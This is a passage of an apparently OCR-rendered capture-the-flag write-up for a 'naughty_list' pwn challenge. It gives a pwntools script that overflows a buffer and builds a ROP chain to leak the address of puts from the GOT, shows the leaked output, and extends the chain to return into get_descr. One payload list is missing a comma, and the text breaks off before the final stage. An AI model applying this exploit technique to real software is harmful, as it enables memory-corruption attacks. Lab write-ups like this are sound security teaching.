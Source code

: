 ```py
io = pwn.process(e.path)
pwn.context.arch = "amd64"
PADDING = 40

pop_rdi = pwn.p64(0x0000000000401443)
ret = pwn.p64(0x0000000000400756)
puts_at_got = pwn.p64(e.got.puts)
puts_at_plt = pwn.p64(e.plt.puts)

payload = [
    b"A"*PADDING,
    pop_rdi,
    puts_at_got
    puts_at_plt
]

io.sendlineafter(b":", "PENIS")
io.sendlineafter(b":", "PENIS")
io.sendlineafter(b":", "69")

io.sendlineafter(b":", b"".join(payload))

io.interactive()
```

Running the python script confirms that it indeed leaks the address of the puts function.
```
python3 leak.py
[+] Starting local process '/challenge/pwn_naughty_list/naughty_list': pid 4512
[*] Switching to interactive mode
    [PENIS]
[+] Surname: [PENIS]
[+] Age:     [69]

[*] Name of the gift you want and why you were good enough to deserve it:
[*] 🎅 will take a better look and hopefuly you will get your 🎁!
\xa0\xfa\xed3
[*] Got EOF while reading in interactive
```

Leaking the function is cool, but the program directly ends after that since our program don't have any valid instruction to execute, for this reason if we want to exploit the program we will need to make a jump into the vulnerable function `get_descr`. So we're going to add the address of the `get_descr` function after our call to puts in the plt.
```py
get_descr = pwn.p64(e.symbols.get_descr)
```

Don't forget to add the line in the payload field after `puts_at_plt`.
```py
payload = [
    b"A"*PADDING,
    pop_rdi,
    puts_at_got,
    puts_at_plt,
    get_descr
]
```
